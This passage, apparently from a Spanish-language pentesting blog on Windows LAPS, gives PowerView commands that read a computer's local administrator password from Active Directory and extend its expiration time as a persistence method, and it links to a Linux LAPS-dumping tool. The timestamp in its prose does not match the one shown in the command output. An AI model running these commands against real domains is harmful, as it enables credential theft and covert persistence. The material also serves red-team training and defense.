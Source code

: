 
### 3.2 Password Expiration Protection
Cuando hemos enumerado la política hemos visto que existe una configuración que es `PwdExpirationProtectionEnabled`, la cual impide al activarse que un usuario o equipo establezca una fecha de caducidad más allá de la edad de la contraseña la cual se especifica en `PasswordAgeDays`. Cuando `PwdExpirationProtectionEnabled` está habilitado y tratamos de cambiar la fecha de caducidad después del día en el que caduca se activa automaticamente el reestablecimiento de la contraseña. Si la configuraciónd e la directiva no se configura la caducidad de la contraseña se desactiva por defecto. 

```powershell
powershell Get-DomainComputer -Identity ordenador -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime

ms-mcs-admpwdexpirationtime ms-mcs-admpwd 
--------------------------- ------------- 
         133198989718766666 PaSSSSWo0rD1-Very-VeryyyyyS3cure
```

El número 133101494718702551 podemos transformarlo a un número real con [**epochconverter**](https://www.epochconverter.com/ldap) y nos dirá que es el viernes, 3 de febrero de 2023.

Podemos tratar de ampliar la duración del permiso como método de persitencia por ejemplo hasta 133999999718766666 o mejor dicho el 18 de agosto de 2025. Esto será visible para los administradores y podrán cambiarlo manualmente, pero puede ayudarnos a mantenernos en los sistemas. 

```powershell
powershell Set-DomainObject -Identity ordenador -Set @{'ms-Mcs-AdmPwdExpirationTime' = '133999999718766666'} -Verbose
```

![Desktop View](/assets/img/laps/laps3.jpg){: width="700" height="425" }


### 3.3 Dumping desde Linux
Podeis dumpear LAPS desde Linux siguiendo este post de [**n00py**](https://www.n00py.io/2020/12/dumping-laps-passwords-from-linux/) que además incluye un repositorio en [**github LAPSDumper**](https://github.com/n00py/LAPSDumper/) con código en python para realizarlo. 
 
